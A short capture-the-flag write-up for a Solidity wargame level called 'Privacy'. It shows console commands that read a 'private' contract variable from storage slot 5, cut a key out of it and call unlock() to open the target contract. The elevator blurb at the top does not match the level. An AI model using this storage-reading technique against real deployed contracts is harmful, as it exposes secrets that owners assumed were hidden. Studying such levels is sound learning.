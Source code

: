 # Level 12: Privacy

### Wargame
This elevator won't let you reach the top of your building. Right?

### Key Insights
* Storage Slots
* In Solidity, all state variables—including private ones—are stored in storage slots, which are part of the contract’s persistent storage.

### Attack Steps

1. Before executing the attack, display the locked value of the target contract.
    ```bash
    > await contract.locked()
    true
    ```

2. Read the data value from the storage slots and use it to calculate the key value.
    ```bash
    > data32 = await web3.eth.getStorageAt(instance, 5)
    '0x5fe1b0ae6eca46c70b8c6276ce184e737cea803a1cfd770eb7ba0f89dbb84de6'

    > key = data32.slice(0, 34)
    '0x5fe1b0ae6eca46c70b8c6276ce184e73'
    ```

3. Call unlock() to attack target contract.
    ```bash
    > contract.unlock(key)
    ```

4. After the transaction is confirmed, display the locked value of the target contract again.
    ```bash
    > await contract.locked()
    false
    ```
